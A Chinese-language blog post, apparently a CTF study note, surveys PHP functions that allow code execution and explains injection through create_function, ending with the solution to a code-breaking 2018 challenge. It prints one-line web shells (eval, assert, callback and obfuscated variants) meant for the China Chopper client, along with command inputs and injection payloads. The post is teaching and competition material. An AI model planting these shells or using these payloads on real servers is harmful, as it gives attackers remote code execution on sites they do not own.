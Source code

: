 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ocZUYpaPBsSylN75k8vbAw)

前言
--

Java 代码审计还会继续，准备材料和代码很耗费时间，所以这一节先不说 java 的代码审计。又因为过段时间需要参加一个全网性的线下 CTF，所以这段时间需要特地研究一下 CTF 的相关题目。自大学之后我基本没有参加 CTF 比赛了，好多东西都有点忘记了，趁这个机会我好好捡起来重新学习一下。

在 CTF 题目中，几乎都会有 PHP 的代码审计，PHP 基本是 CTFer 必备的一个技能点，那么今天我来简单说下 php 中 create_function 的利用方式，同时也引用一下一道真实的 CTF 题目作为讲解。

常用的代码执行函数
---------

对于一个有经验的赛棍来说，php 进行**代码执行** (注意：我这里说的是代码执行，不是命令执行) 的函数有

1.  `eval` 函数
    
    ```
    传入的参数必须为PHP代码，既需要以分号结尾。#命令執行：cmd=system(whoami);#菜刀连接密码：cmd<?php @eval($_POST['cmd']);?>
    ```
    
2.  `assert` 函数
    
    ```
    #assert函数是直接将传入的参数当成PHP代码直接，不需要以分号结尾，当然你加上也可以。#命令執行：cmd=system(whoami)#菜刀连接密码：cmd<?php @assert($_POST['cmd'])?>
    ```
    
3.  `preg_replace` 函数
    
    ```
    #preg_replace('正则规则','替换字符'，'目标字符')#执行命令和上传文件参考assert函数(不需要加分号)。#将目标字符中符合正则规则的字符替换为替换字符，此时如果正则规则中使用/e修饰符，则存在代码执行漏洞。preg_replace("/test/e",$_POST["cmd"],"jutst test");
    ```
    
4.  `create_function` 函数
    
    ```
    #创建匿名函数执行代码#执行命令和上传文件参考eval函数(必须加分号)。#菜刀连接密码：cmd$func =create_function('',$_POST['cmd']);$func();
    ```
    
5.  `array_map` 函数
    
    ```
    #array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。 回调函数接受的参数数目应该和传递给 array_map() 函数的数组数目一致。#命令执行http://localhost/123.php?func=system   cmd=whoami#菜刀连接http://localhost/123.php?func=assert   密码：cmd$func=$_GET['func'];$cmd=$_POST['cmd'];$array[0]=$cmd;$new_array=array_map($func,$array);echo $new_array;
    ```
    
6.  `call_user_func` 函数
    
    ```
    #传入的参数作为assert函数的参数#cmd=system(whoami)#菜刀连接密码：cmdcall_user_func("assert",$_POST['cmd']);
    ```
    
7.  `call_user_func_array` 函数
    
    ```
    #将传入的参数作为数组的第一个值传递给assert函数#cmd=system(whoami)#菜刀连接密码：cmd$cmd=$_POST['cmd'];$array[0]=$cmd;call_user_func_array("assert",$array);
    ```
    
8.  `array_filter` 函数
    
    ```
    #用回调函数过滤数组中的元素：array_filter(数组,函数)#命令执行func=system&cmd=whoami#菜刀连接http://localhost/123.php?func=assert  密码cmd$cmd=$_POST['cmd'];$array1=array($cmd);$func =$_GET['func'];array_filter($array1,$func);
    ```
    
9.  `uasort` 函数
    
    ```
    #php环境>=<5.6才能用#uasort() 使用用户自定义的比较函数对数组中的值进行排序并保持索引关联 。#命令执行：http://localhost/123.php?1=1+1&2=eval($_GET[cmd])&cmd=system(whoami);#菜刀连接：http://localhost/123.php?1=1+1&2=eval($_POST[cmd])   密码：cmdusort($_GET,'asse'.'rt');
    ```
    

create_function 函数
------------------

适用范围：`PHP 4> = 4.0.1`，`PHP 5`，`PHP 7`

功能：根据传递的参数创建匿名函数，并为其返回唯一名称。

```
create_function(string $args,string $code)string $args 声明的函数变量部分string $code 执行的方法代码部分
```

案例：

```
<?php$newfunc = create_function('$a, $b', 'return "$a + $b = " . ($a + $b);');echo "function: " . $newfunc . "\n";echo $newfunc(3,4);
```

![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7jiaurklqoBkShQ6wOgLCY1GJ5BZJJvQcUiaUnVibYkqTVFMBPBMDPiavEYDhMfFQOfD7icpjg7cUKk0Fg/640?wx_fmt=png)

可以看到，`create_function` 的第一个参数是匿名函数的参数名，第二个参数是函数里面的逻辑代码

### 如何利用 create_function 进行代码注入

```
<?php$id=$_GET['id'];$str2='echo  '.$a.'test'.$id.";";echo $str2;echo "<br/>";echo "==============================";echo "<br/>";$f1 = create_function('$a',$str2);echo "<br/>";echo "==============================";
```

在这个例子中，将`$str2`的参数带入到`create_function`中执行，那我们就需要闭合这个函数，然后注释接下来的语句就可以形成我们的 payload

`http://fx.com/create2.php?id=;};phpinfo();//`

![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7jiaurklqoBkShQ6wOgLCY1GuicYoku11KkXCK8GqIQKwraRpzzrKxy019ZfBFZf7WlCs3zBV7u05Lg/640?wx_fmt=png)

上面匿名函数可能大家都看不明白，我把常用的函数声明的方式写出来

```
<?php//常规方法function func($a){  echo $a . 'test' . $_GET['id'] . ';';}//create2.php?id=;};phpinfo();// 注入后的代码function func($a){  echo $a . 'test';} phpinfo();//' . ';'  //形成代码注入}
```

code-breaking2018 中的一道题
-----------------------

```
<?php$action = $_GET['action'] ?? '';$arg = $_GET['arg'] ?? '';if(preg_match('/^[a-z0-9_]*$/isD', $action)) {    show_source(__FILE__);} else {    $action('', $arg);}
```

这题十分简短精悍，特别看到`$action('', $arg);`就条件反射肯定是`create_function`，应该是需要找到一个在 [a-z0-9_] 之外的字符放置在函数前而不影响函数的调用，简单传入：

`http://127.0.0.1:8087/?action=%20system&arg=`

让页面报错了, fuzz 之后得到`\`, `\` 在 php 中是表示根命名空间就是整个代码就是`\create_function('', $arg);` 是可以运行的，arg 就用我们上面说到的方法。最后的 payload 就是`http://127.0.0.1/?action=\create_function&arg=}phpinfo();//`